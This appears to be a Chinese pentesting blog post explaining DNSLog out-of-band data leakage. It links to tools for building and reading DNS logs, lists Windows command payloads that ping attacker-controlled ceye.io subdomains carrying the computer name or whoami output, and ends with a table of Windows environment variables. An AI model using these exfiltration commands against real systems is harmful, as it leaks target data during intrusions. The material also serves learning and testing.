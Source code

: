 ```yaml
---
layout:     post
title:      dnslog
date:       2019-1-13
author:     Wh0ale
header-img: img/1.jpg
---
```


# 0x01 搭建Dnslog

dnslog原理：

DNS在解析的时候会留下日志，这类工具就是读取多级域名的解析日志，来获取信息，简单来说就是把信息放在多级子域名中，传递到我们自己的服务器中，然后读取日志，获取特定信息，最后根据获取的信息来判断我们渗透测试的动作是否成功运行。

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3mvepls7j20jd0b2jux.jpg)



搭建：<https://github.com/BugScanTeam/DNSLog>

 ceye: <http://ceye.io/records/dns>

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3mybteepj211h0bqgmg.jpg)

# 0x02 windows常用payload：

| ping   %COMPUTERNAME%.2gln5s.ceye.io                         | 查看返回的计算机名 |
| ------------------------------------------------------------ | ------------------ |
| for   /F "delims=\" %i in ('whoami') do ping -n 1 %i.2gln5s.ceye.io | 查看返回的计算机名 |
| for /F "delims=\   tokens=2" %i in ('whoami') do ping -n 1 %itest.2gln5s.ceye.io |                    |




| %APPDATA%   :                | 列出应用程序数据的默认存放位置。                             |
| ---------------------------- | ------------------------------------------------------------ |
| %CD%   :                     | 列出当前目录。                                               |
| %CLIENTNAME%   :             | 列出联接到终端服务会话时客户端的NETBIOS名。                  |
| %CMDCMDLINE%   :             | 列出启动当前cmd.exe所使用的命令行。                          |
| %CMDEXTVERSION%   :          | 命令出当前命令处理程序扩展版本号。                           |
| %CommonProgramFiles%   :     | 列出了常用文件的文件夹路径。                                 |
| %COMPUTERNAME%   :           | 列出了计算机名。                                             |
| %COMSPEC%   :                | 列出了可执行命令外壳（命令处理程序）的路径。                 |
| %DATE%   :                   | 列出当前日期。                                               |
| %ERRORLEVEL%   :             | 列出了最近使用的命令的错误代码。                             |
| %HOMEDRIVE%   :              | 列出与用户主目录所在的驱动器盘符。                           |
| %HOMEPATH%   :               | 列出用户主目录的完整路径。                                   |
| %HOMESHARE%   :              | 列出用户共享主目录的网络路径。                               |
| %LOGONSEVER%   :             | 列出有效的当前登录会话的域名控制器名。                       |
| %NUMBER_OF_PROCESSORS%   :   | 列出了计算机安装的处理器数。                                 |
| %OS%   :                     | 列出操作系统的名字。(Windows   XP 和 Windows 2000 列为 Windows_NT.) |